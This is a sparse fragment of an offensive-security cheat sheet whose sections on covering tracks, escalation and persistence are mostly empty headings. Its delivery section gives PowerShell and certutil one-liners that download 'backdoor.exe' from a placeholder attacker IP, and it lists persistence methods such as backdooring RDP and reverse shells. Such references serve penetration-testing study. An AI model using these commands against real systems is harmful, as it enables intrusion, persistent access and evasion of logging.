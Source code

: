 ### Finding Important Files

...

### Other Utilities

...

## Covering Your Tracks

...

### Avoiding history filesmys

...

### Deleting and Destroying

...

## Escalating

...

### Looking for possible opened paths

...

## Delivery methods

See also the `upload` command in `msfconsole`.

With powershell:

````commandline
Invoke-WebRequest http://10.x.x.x/backdoor.exe
````

With certutils:

````commandline
certutil -urlcache -split -f http://10.x.x.x/backdoor.exe
````

## Maintaining control

See also other ways of keeping persistence.

- Using scheduled tasks
- Creating another user
- Backdooring RDP
- Reverse shell

### Windows Startup folder
